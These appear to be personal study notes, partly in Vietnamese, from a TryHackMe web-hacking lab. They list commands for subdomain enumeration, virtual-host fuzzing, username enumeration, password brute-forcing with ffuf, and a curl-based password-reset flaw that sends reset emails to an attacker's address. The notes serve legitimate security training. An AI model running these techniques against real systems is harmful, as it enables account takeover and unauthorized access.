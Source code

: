 # Web basic

19 Tháng Bảy 2022

6:52 SA

SUB DOMAIN ENUM:

Google enum:

-site:www.tryhackme.com  site:*.tryhackme.com

Osint ssl:

Go to  and search for the domain name tryhackme.com

DNS bruteforce:

dnsrecon -t brt -d acmeitsupport.thm

./sublist3r.py -d acmeitsupport.thm

FUZZ VIRTUAL HOST

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u

Nếu trả về nhiều kết quả có size 2395 byte thì có thể dùng -fs để loại bớt các kết quả có size 2395

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u  -fs 2395

Authentication Bypass

Enum User:

user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u  -mr "username already exists" > valid_usernames.txt

bruteforce:

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u  -fc 200

Logic flaws:

Let's illustrate this by using the curl tool to manually make the request to the webserver.

curl '' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'

The PHP $_REQUEST variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

curl '' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'

curl '' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
